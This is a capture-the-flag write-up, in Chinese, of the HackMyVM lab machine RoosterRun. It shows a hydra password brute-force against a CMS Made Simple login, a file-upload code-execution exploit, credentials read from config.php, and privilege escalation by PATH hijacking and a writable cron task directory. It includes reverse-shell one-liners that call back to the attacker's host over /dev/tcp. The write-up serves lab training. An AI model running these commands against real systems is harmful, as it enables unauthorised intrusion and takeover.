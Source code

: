 # RoosterRun

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=RoosterRun

[video](https://www.bilibili.com/video/BV1mXQqYXE4C/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 发现 CMS: CMS Made Simple version 2.2.9.1 找到登陆窗口 http://192.168.5.40/admin/login.php ，在 news 中看到了一个用户名 admin 进行一下爆破：

```
hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt 192.168.5.40 -f http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:F=User name or password incorrect"

[80][http-post-form] host: 192.168.5.40   login: admin   password: homeandaway
```

找到了管理员密码，登陆到系统，参照 https://www.exploit-db.com/exploits/48742 这里在 FileManager 中可以上传 pthml 文件，进而执行代码。

上传至 upload 文件夹上，然后访问，就会在 kali 上得到反弹的 shell。

发现这个 CMS 的数据库配置文件：

```
www-data@rooSter-Run:/var/www/html$ cat config.php
<?php
# CMS Made Simple Configuration File
# Documentation: https://docs.cmsmadesimple.org/configuration/config-file/config-reference
#
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'admin';
$config['db_password'] = 'j42W9kDq9dN9hK';
$config['db_name'] = 'cmsms_db';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'Europe/Berlin';
```

但是这个密码不是用户 matthieu 的。

/opt 目录被设置了 acl，进行更详细查看：

```
getfacl -R -s -p / 2>/dev/null

# file: //usr/local/bin
# owner: root
# group: root
user::rwx
user:www-data:rwx
user:matthieu:r-x
group::---
mask::rwx
other::---
```

发现 www-data 用户可以修改 /usr/local/bin , 同时 /usr/local/bin 在 $PATH 中第二项。

在 /home/matthieu/中发现一个脚本 StaleFinder ，其中的 echo 没有使用全局路径，在 /usr/bin 中有 echo，但是 /usr/local/bin 这个在 PATH 中比/usr/bin 位置靠前，可以进行命令劫持。

盲猜 StaleFinder 脚本应该是某个用户执行的定时任务，这里看到第一行 #!/usr/bin/env bash ，会从 path 环境变量中查找 bash ，然后在用这个 bash 执行解析脚本。这里利用上面的/usr/local/bin 可写，可以劫持 bash 命令：

```
echo -e '#!/bin/bash\n/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > /usr/local/bin/bash
chmod +x /usr/local/bin/bash
```

同时在 kali 上创建监听，等待反弹。

拿到了 user flag:

```
matthieu@rooSter-Run:~$ cat user.txt
32af3c9a9cb2fb748aef29457d8cff55
```

在 /opt/maintenance 中发现 backup.sh 文件，pre-prod-tasks 和 prod-tasks 文件夹对其他用户有写权限，最后执行 /usr/bin/run-parts /opt/maintenance/prod-tasks 中的脚本文件。

if -O 参数会检测当前执行脚本的用户 id 和这个文件的所属用户的 id 是否一致，一致返回 true。换句话就是这个文件是否是属于当前执行 if 判断命令的用户：

```
if [ -O /etc/passwd ]; then echo "owner"; else echo "not owner"; fi
```

向 pre-prod-tasks 中写入 sh 脚本:

```
echo -e '#!/bin/bash\n/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8889 0>&1"' > /opt/maintenance/pre-prod-tasks/run.sh; chmod +x /opt/maintenance/pre-prod-tasks/run.sh
```

/usr/bin/run-parts 默认情况下执行的脚本不能带扩展名(如果没有给出 --lsbsysinit 选项或 --regex 选项，则名称必须完全由 ASCII 大写和小写字母、ASCII 数字、ASCII 下划线和 ASCII 减号连字符组成)，所以在文件执行 cp 后，执行 mv 操作去掉 sh 后缀：

```
matthieu@rooSter-Run:/opt/maintenance/prod-tasks$ mv run.sh run
```

等待 1 分钟，反弹 shell 执行，拿到了最终的 flag:

```
cat root.txt
670ff72e9d8099ac39c74c080348ec17
```
